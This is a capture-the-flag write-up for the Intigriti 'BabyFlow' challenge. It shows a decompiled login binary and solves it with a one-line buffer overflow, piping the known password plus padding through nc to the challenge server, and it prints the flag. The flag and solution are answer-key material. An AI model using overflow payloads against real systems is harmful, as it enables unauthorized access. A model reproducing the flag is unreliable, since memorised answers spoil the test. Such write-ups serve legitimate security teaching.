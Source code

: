 # BabyFlow [438 Solves]

## Description

> Does this login application even work?!
>
> `nc babyflow.ctf.intigriti.io 1331`
>
> Attachments: babyflow

## Flag

INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}

## Solution

```console
$ file babyflow
babyflow: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=55a6fe0ff25ff287549a03eb79dd00df541ece7f, for GNU/Linux 3.2.0, not stripped
```

Decompiled with Ghidra:

```c
undefined8 main(void)

{
  int iVar1;
  char local_38 [44];
  int local_c;
  
  local_c = 0;
  printf("Enter password: ");
  fgets(local_38,0x32,stdin);
  iVar1 = strncmp(local_38,"SuPeRsEcUrEPaSsWoRd123",0x16);
  if (iVar1 == 0) {
    puts("Correct Password!");
    if (local_c == 0) {
      puts("Are you sure you are admin? o.O");
    }
    else {
      puts("INTIGRITI{the_flag_is_different_on_remote}");
    }
  }
  else {
    puts("Incorrect Password!");
  }
  return 0;
}
```

Overwrite local_c with Buffer Over Flow.

```console
$ echo 'SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' | nc babyflow.ctf.intigriti.io 1331
Enter password: Correct Password!
INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
```
